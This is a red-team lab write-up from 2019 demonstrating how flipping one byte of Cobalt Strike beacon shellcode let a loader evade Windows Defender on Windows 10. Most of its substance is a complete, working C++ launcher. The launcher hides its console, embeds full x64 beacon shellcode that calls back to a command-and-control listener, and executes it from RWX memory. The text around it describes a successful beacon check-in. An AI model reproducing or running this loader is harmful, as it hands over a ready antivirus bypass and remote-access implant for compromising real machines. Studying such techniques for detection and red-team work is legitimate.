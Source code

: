 # Evading Windows Defender with 1 Byte Change

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 (1803) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:

![](../../.gitbook/assets/screenshot-from-2019-01-11-13-02-28.png)

Can we do something about it?

## 1 Byte Trick

Let's generate a Cobalt Strike shellcode for our listener in C:

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-35-25.png)

Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](../code-injection-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` (line 80)
* Store the correct first byte `\xfc` in a char variable (line 81)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` (line 86)
* Build the executable
* Profit?

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-32-50.png)

Below is the source code if you want to test it in your environment:

{% code title="shellcodelauncher.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endcode %}

## Execution

On the left - Windows 10 with Windows Defender turned on and on the right is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:

![](../../.gitbook/assets/peek-2019-01-11-14-45.gif)

{% hint style="danger" %}
This is a quick and dirty proof of concept and hence the console window is visible for a brief moment, meaning a target user can suspect nefarious activity.
{% endhint %}

Below shows that the beacon that called back is stable and working as expected:

![](../../.gitbook/assets/screenshot-from-2019-01-11-14-47-10.png)

Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:

![](../../.gitbook/assets/peek-2019-01-11-15-02.gif)

## Default Payload

Below shows that if the Cobalt Strike shellcode was injected as is, it immediately gets flagged:

![](../../.gitbook/assets/peek-2019-01-11-16-50.gif)

## Conclusion

Although not completely stealthy - the console window is visible for a brief moment during shellcode exeution, this short lab demonstrates that sometimes all it takes to evade AV detection is 1 one byte way.

## Subliminal Inspiration

{% embed url="https://twitter.com/curi0usjack/status/1083470829290164227?s=12" %}

{% hint style="info" %}
**Update**\
\*\*\*\*[@curi0usJack](https://twitter.com/curi0usJack) informed me that [@HackingDave](https://twitter.com/HackingDave) had found the same Windows Defender bypass technique as seen here [https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844](https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844) as part of his `Unicorn` project - very nice work! I will be definitely checking out the tool and its capabilities!
{% endhint %}
